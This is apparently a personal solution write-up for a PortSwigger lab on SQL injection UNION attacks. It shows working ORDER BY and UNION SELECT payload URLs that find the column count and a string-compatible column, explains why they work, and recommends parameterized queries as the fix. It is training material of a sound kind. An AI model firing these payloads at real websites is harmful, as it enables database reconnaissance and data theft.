

**Category:** SQL Injection  
**Difficulty:** Practitioner  
**Status:** ✅ Solved  
**Lab Link:** [PortSwigger Lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

---

## Objective

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a [previous lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns). The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

---

## Background

UNION-based SQL injection allows attackers to append a `UNION SELECT` statement to retrieve data from other tables. For this attack to succeed, the injected query must return the same number of columns as the original query, and each column's data type must be compatible. This lab focuses on identifying which columns can accept string data—a critical reconnaissance step before extracting actual database contents.

---

## My Approach

### Step 1: Determine the Number of Columns

I used the `ORDER BY` technique from [Lab 7](7.%20SQL%20injection%20UNION%20attack,%20determining%20the%20number%20of%20columns%20returned%20by%20the%20query.md) to find the column count:

```
https://<LAB-ID>.web-security-academy.net/filter?category=Pets%27+ORDER+BY+1--
https://<LAB-ID>.web-security-academy.net/filter?category=Pets%27+ORDER+BY+2--
https://<LAB-ID>.web-security-academy.net/filter?category=Pets%27+ORDER+BY+3--
https://<LAB-ID>.web-security-academy.net/filter?category=Pets%27+ORDER+BY+4-- boundary-revealing payload (caused error)
```

The application accepted `ORDER BY 3` but returned an error on `ORDER BY 4`, confirming the query returns **3 columns**.

### Step 2: Identify String-Compatible Column

The lab provided a random string value: `rj68Cf`

I tested each column position by placing the string in different positions while keeping the other columns as `NULL`:

| Payload | Result |
|---------|--------|
| `' UNION SELECT 'rj68Cf', NULL, NULL--` | ❌ Error — Column 1 not string-compatible |
| `' UNION SELECT NULL, 'rj68Cf', NULL--` | ✅ Success — Column 2 is string-compatible |
| `' UNION SELECT NULL, NULL, 'rj68Cf'--` | (Not needed — already found) |

The second column accepted the string value, confirming it is compatible with text data.



---

## Payload Used

### Payload 1: Column Count Enumeration
```URL
https://<LAB-ID>.web-security-academy.net/filter?category=Pets%27+ORDER+BY+4--
```

### Payload 2: String-Compatible Column (Final)
```URL
https://<LAB-ID>.web-security-academy.net/filter?category=Pets%27+UNION+SELECT+NULL,+%27rj68Cf%27,+NULL--
```

**Decoded for clarity:**
```
category=Pets' UNION SELECT NULL, 'rj68Cf', NULL--
```

---

## Why It Worked

The original query likely looked like this:

```sql
SELECT * FROM products WHERE category = 'Pets' AND released = 1
```

After injection, it became:

```sql
SELECT * FROM products WHERE category = 'Pets' UNION SELECT NULL, 'rj68Cf', NULL--' AND released = 1
```

### Breakdown

| Component | Purpose |
|-----------|---------|
| `'` | Closes the original string parameter in the `WHERE` clause |
| `UNION SELECT NULL, 'rj68Cf', NULL` | Appends a second query with 3 columns, placing the string in column 2 |
| `--` | SQL comment sequence that neutralizes the rest of the original query |

The attack succeeded because:

1. **Column count matched** (3 columns confirmed via `ORDER BY`)
2. **Data type compatibility** — Column 2 accepted string data (likely a `VARCHAR` or `TEXT` type in the database)
3. **NULL compatibility** — `NULL` values are compatible with most data types, allowing us to fill the other columns safely
4. **String placement** — By moving the string through each column position, we identified which column could display text in the application response

---

## How to Fix It

The only reliable defense is to **use parameterized queries (prepared statements)**. This ensures user input is treated as data, not executable code.

See [Lab 1: SQL Injection Fundamentals](1.%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data.md) for language-specific examples.

---

## Key Takeaway

> Determining the column count is only the first step in UNION-based SQL injection—you must also identify which columns are compatible with the data type you want to inject. Use `NULL` for unknown types and test string placement systematically. This reconnaissance phase is essential before attempting to extract actual database contents.

